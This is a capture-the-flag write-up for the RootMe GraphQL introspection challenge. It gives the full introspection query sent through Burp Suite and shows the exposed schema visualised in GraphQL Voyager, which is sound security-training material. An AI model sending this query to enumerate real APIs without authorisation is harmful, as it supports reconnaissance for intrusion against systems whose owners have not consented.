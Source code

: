 # RootMe: GraphQL Introspection

[RootMe Challenge GraphQL - Introspection](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Introspection): First steps in exploring a GraphQL schema with the introspection feature.

There are some major differences between RESTful APIs and GraphQL APIs. The same hacking techniques used for RESTful APIs can be adapted for hacking GraphQL.

## Introspection

_Introspection is the ability to query which resources are available in the current API schema. Given the API, via introspection, we can see the queries, types, fields, and directives it supports._

In BurpSuite end the `POST /rocketql HTTP/1.1` request to Repeater and adapt it with a query for GraphQL introspection:

```text
{"query":"query IntrospectionQuery{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}"}
```

## Response

![GraphQL Introspection](../../_static/images/graphql1.png)

Open [GraphQL Voyager](https://apis.guru/graphql-voyager/) and click on CHANGE SCHEMA. Go to the Introspection tab and paste the schema from the response.

![GraphQL Introspection](../../_static/images/graphql2.png)

## Fiddling

![GraphQL Introspection](../../_static/images/graphql3.png)

`nothingherelol`, was to be expected as the object was called `IAmNotHere`. Time to explore further ...

## Resources

* [GraphQL - Query GraphQL - GraphQL.pdf](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20GraphQL%20-%20Query%20GraphQL%20-%20GraphQL.pdf)
* [GraphQL - grahql.pdf](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20GraphQL%20%20-%20%20grahql.pdf)
* [InQL (Burp Suite)](https://github.com/doyensec/inql)
* [righettod/poc-graphql](https://github.com/righettod/poc-graphql)
* [dolevf/Damn-Vulnerable-GraphQL-Application](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application)
* [Looting GraphQL Endpoints for Fun and Profit](https://raz0r.name/articles/looting-graphql-endpoints-for-fun-and-profit/)
